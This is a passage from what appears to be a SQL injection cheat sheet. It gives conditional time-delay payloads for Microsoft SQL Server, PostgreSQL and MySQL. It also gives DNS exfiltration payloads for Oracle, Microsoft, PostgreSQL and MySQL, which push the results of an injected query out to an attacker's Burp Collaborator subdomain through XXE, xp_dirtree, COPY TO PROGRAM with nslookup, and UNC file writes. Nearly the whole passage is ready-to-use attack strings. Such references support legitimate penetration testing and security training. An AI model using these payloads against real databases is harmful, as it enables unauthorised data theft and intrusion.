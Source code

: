 Microsoft

`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`

PostgreSQL

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`
#### DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle

`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

Microsoft

`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`

PostgreSQL

`create OR replace function f() returns void as $$  
declare c text;  
declare p text;  
begin  
SELECT into p (SELECT YOUR-QUERY-HERE);  
c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';  
execute c;  
END;  
$$ language plpgsql security definer;  
SELECT f();`

MySQL

The following technique works on Windows only:  
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`
